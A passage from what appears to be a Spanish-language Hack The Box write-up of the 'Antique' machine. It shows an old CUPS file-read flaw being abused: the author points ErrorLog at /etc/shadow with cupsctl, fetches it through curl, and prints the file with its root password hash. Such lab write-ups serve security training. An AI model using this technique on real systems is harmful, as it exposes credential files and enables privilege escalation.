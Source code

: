 Ahora podemos abrir el contenido en nuestro equipo a través de `localhost:631`

<img src="/assets/HTB/Antique/cups.png">

tras una búsqueda en Google descubrimos que las versiones de CUPS anteriores a la 1.6.2 son vulnerables a lectura de archivos locales. Navegamos a `Administración` y vemos que clickando en `Ver archivo de registro de errores` muestra el contenido del archivo `error.log`. Como CUPS funciona con root como predeterminado la lectura arbitraria de archivos puede ser acontecida actualiando el path `ErrorLog`. Para ello usamos `cupsctl`

```bash
cupsctl ErrorLog="/etc/shadow"
```
Ahora mediante una petición curl a View Error Log nos revela el contenido de `/etc/shadow`

```bash
lp@antique:/tmp$ curl http://localhost:631/admin/log/error_log
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
lp:*:18375:0:99999:7:::
mail:*:18375:0:99999:7:::
news:*:18375:0:99999:7:::
uucp:*:18375:0:99999:7:::
proxy:*:18375:0:99999:7:::
www-data:*:18375:0:99999:7:::
backup:*:18375:0:99999:7:::
list:*:18375:0:99999:7:::
irc:*:18375:0:99999:7:::
gnats:*:18375:0:99999:7:::
nobody:*:18375:0:99999:7:::
systemd-network:*:18375:0:99999:7:::
systemd-resolve:*:18375:0:99999:7:::
systemd-timesync:*:18375:0:99999:7:::
messagebus:*:18375:0:99999:7:::
syslog:*:18375:0:99999:7:::
_apt:*:18375:0:99999:7:::
tss:*:18375:0:99999:7:::
uuidd:*:18375:0:99999:7:::
```